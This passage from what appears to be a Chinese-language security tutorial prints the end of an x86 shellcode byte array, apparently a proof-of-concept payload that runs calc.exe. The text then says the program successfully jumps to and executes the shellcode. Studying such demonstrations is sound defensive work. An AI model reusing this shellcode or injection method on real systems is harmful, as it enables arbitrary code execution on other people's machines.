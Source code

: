 ```plain
    0x8B, 0x04, 0x8B, 0x01, 0xD0, 0x89, 0x44, 0x24,
    0x24, 0x5B, 0x5B, 0x61, 0x59, 0x5A, 0x51, 0xFF,
    0xE0, 0x5F, 0x5F, 0x5A, 0x8B, 0x12, 0xEB, 0x8D,
    0x5D, 0x6A, 0x01, 0x8D, 0x85, 0xB2, 0x00, 0x00,
    0x00, 0x50, 0x68, 0x31, 0x8B, 0x6F, 0x87, 0xFF,
    0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x68, 0xA6,
    0x95, 0xBD, 0x9D, 0xFF, 0xD5, 0x3C, 0x06, 0x7C,
    0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
    0x13, 0x72, 0x6F, 0x6A, 0x00, 0x53, 0xFF, 0xD5,
    0x63, 0x61, 0x6C, 0x63, 0x2E, 0x65, 0x78, 0x65,
    0x00, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0xE5, 0x23 
};
```

然后我们再来启动程序，可以看到成功跳转到 ShellCode 进行执行：

[![](assets/1709261916-00fb373514dc2170865d768e54ed72b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228173039-095044ac-d61c-1.png)

[![](assets/1709261916-269b69c95dcf85a3341d50d2a76e811e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228173105-18ab3088-d61c-1.png)
